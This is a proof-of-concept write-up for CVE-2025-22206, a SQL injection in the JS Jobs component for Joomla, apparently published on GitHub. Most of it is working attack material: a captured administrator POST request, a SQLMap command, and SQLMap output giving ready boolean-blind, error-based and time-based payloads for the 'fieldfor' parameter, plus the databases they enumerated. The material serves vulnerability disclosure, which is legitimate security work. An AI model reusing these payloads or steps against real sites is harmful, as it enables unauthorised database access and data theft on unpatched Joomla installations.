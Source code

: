 # CVE-2025-22206: SQL injection in JS jobs component version 1.1.5 - 1.4.2 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22206

**JS Jobs:** https://joomsky.com/js-jobs-joomla

**Writeup:** https://decrypt.locker/obtaining-my-first-cve

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.2 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'fieldfor' parameter in the GDPR Field feature.

## POC
To exploit this vulnerability, log in as the site administrator and go to 'Dashboard >> GDPR Fields >> + Add New Field >> Add Fields >> Field Title: test >> Field Text: test >> Save Fields'.

![Alt text](1.png)

Then capture the Save Fields HTTP request with Burp Suite and save the request to a file (req.txt). Then run SQLMap through the file to exploit the SQLi vulnerability (see below).

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 364
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; a3030abf7606e950783a31b16179a889=1c61b4c6f83b5569f9484c6888412100; f06339f02055c32957cf8cda32f8587f=48b5f4615da4721440ffe8ec49d08347
Connection: keep-alive

check=89cb1c0cc02cf810832f5e4c6c7b7386&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save+Fields&89cb1c0cc02cf810832f5e4c6c7b7386=1
```

**Exploit:**
```
ubuntu@host:~/tools$ python3 sqlmap-dev/sqlmap.py -r ~/test/req.txt --batch --dbs

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: fieldfor (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=(SELECT (CASE WHEN (7446=7446) THEN 14 ELSE (SELECT 6203 UNION SELECT 9943) END))&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND GTID_SUBSET(CONCAT(0x71786a6271,(SELECT (ELT(6091=6091,1))),0x716a766b71),6091)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND (SELECT 7659 FROM (SELECT(SLEEP(5)))kQDv)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
